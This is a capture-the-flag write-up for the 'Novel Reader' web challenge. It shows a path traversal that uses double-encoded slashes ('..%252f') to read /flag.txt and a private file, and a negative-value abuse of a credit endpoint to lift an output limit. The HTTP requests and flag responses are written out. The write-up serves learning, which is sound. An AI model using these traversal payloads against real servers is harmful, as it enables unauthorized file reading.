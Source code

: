 # Novel Reader

## Challenge Description

We have many fun novels for ya...

## Solution

### Recon

The challenge presented a basic site allowing users to read novels, introducing a "donate" mechanic that unlocked more words in a novel based on credits.

![site](https://github.com/No-Tips/ctf-writeups/assets/75416333/09d1f0b0-5794-4f2d-9f33-c6c3ef0290d0)



Diving into the source code, I identified several endpoints:

ENDPOINT | OVERVIEW
-------------------
api/stats | Outputs our credits and word count
api/charge | Deducts our credits to add words
api/read/<path:name> | Outputs a novel (limited to paid-for words)
api/list-public-novels | Lists all public novels
api/list-private-novels | Lists all private novels


We are not allowed to read not public novels, which is clear from read function:

```python
    if(not name.startswith('public/')):
        return {'success': False, 'msg': 'You can only read public novels!'}, 400
```

And also the challenge restricted access to private novels and limited the output to a specified number of "words_balance" (which is the number of words we "paid" for")

```python
buf = readFile(name).split(' ')
buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
```
The flags are hidden in a private novel /private/A-Secret-Tale.txt and in /flag.txt

### Step 1:

The if-statement in the read function hinted at a Local File Inclusion (LFI) vulnerability. 
The goal was to find a way to bypass this check. 
Simple attempts like
```
/api/read/public/../flag.txt
```

failed due to unpacking to
```
/api/read/flag.txt
```

And that can not pass the if-statement.

So, after some tinkering with encodings and what can decode the decoder `urllib.parse.unquote`, which is used in source, the one string, that worked, was `%252f` for a slash
```
GET /api/read/public/..%252f..%252f..%252fflag.txt 

{"msg":"MAPNA{uhhh-1-7h1nk-1-f0r607-70-ch3ck-cr3d17>0-4b331d4b}\n\n... Charge your account to unlock more of the novel!","success":true}
```

## Step 2

Attempting the same with A-Secret-Tale.txt revealed a limited output:
```json
{"msg":"Once.... Charge your account to unlock more of the novel!","success":true}
```

Even after purchasing all the words with the initial 100 tokens, the output remained restricted:
``json
{"msg":"Once a upon time there was a flag. The flag.... Charge your account to unlock more of the novel!","success":true}
```

So, we need to find another vulnerability, and read this file to the end.

So, after examining the line in code, which gives the output again:
```python
buf = ' '.join(buf[0:session['words_balance']])+'... Charge your account to unlock more of the novel!'
```

I saw the basic python trick, where we can set our array indexes in negative, and that would mean "the last index n from the end".

So, something like `array[0:-1]` will actually read from first index to before last one. And guess what? There is no check for negative numbers in `api/charge` endpoint!

```python
nwords = request.args.get('nwords')
    if(nwords):
        nwords = int(nwords[:10])
        price = nwords * 10
        if(price <= session['credit']):
            session['credit'] -= price
            session['words_balance'] += nwords
```

So we can simply subtract our words_balance to -1, and after that we can read our flag

```
GET /api/read/public/..%252fprivate/A-Secret-Tale.txt

{"msg":"Once a upon time there was a flag. The flag was read like this: MAPNA{uhhh-y0u-607-m3-4641n-3f4b38571}.... Charge your account to unlock more of the novel!","success":true}
```


In conclusion, Novel Reader 1 and Novel Reader 2 challenges, while not overly difficult, required a deep understanding of Python backend and basic knowledge of LFI
